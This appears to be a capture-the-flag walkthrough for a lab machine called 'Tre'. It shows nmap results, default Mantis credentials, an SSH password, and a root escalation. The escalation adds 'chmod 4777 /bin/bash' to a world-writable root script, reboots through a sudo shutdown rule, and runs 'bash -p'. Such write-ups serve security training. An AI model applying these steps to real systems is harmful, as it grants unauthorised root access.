




# Tre

***

IP=192.168.240.84

## NMAP

| PORT     | STATE | SERVICE         |
| -------- | ----- | --------------- |
| 22/tcp   | open  | ssh             |
| 80/tcp   | open  | http            |
| 8082/tcp | open  | blackice-alerts |

```perl
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```perl
/info.php
/system
/cms
```

### system


<figure><figcaption></figcaption></figure>

admin:admin

#### Mantis Bug Tracker

http://192.168.240.84/system/verify.php?id=1\&confirm\_hash=


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

## 22 - ssh

```bash
ssh tre@$IP
Tr3@123456A!
```

## PrivEsc


<figure><figcaption></figcaption></figure>

```bash
tre@tre:~$ ls -la /usr/bin/check-system 
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
```

```bash
cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```

add `chmod 4777 /bin/bash`

```bash
tre@tre:~$ sudo -l

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

```bash
sudo /sbin/shutdown -r 0
```

```bash
bash -p
```
